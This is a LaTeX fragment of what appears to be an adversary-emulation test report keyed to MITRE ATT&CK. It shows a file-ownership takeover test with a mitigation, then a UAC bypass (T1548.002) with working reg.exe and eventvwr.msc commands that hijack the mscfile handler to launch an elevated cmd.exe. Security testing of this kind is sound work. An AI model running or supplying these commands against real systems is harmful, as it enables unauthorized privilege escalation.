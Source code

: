 \documentclass[11pt]{article}
\begin{document}
\subsubsection{Output}
\begin{figure}[H]
    \centering
    \includegraphics[width=1.1\textwidth]{./images/6.jpeg}
    \caption{Taking Ownership of Target Folder}
\end{figure}
\subsubsection{Result}
The test successfully took ownership of the target folder and granted full control permissions.
\subsubsection{Mitigation}
To prevent unauthorized file access, organizations should enforce strict file permissions, monitor for changes to file ownership, and implement alerts for suspicious file modifications.
\subsection{Test Case 5: T1548.002   Abuse Elevation Control Mechanism: Bypass User Account Control}
\subsubsection{Description}
Modified the Windows Registry to hijack eventvwr.msc execution, allowing cmd.exe to run with elevated privileges without triggering a UAC prompt. This method exploits how Event Viewer auto-elevates without proper validation.
\begin{lstlisting}[language=bash]
    reg.exe add hkcu\software\classes\mscfile\shell\open\command /ve /d "C:\Windows\System32\cmd.exe" /f
    cmd.exe /c eventvwr.msc
    \end{lstlisting}
\end{document}
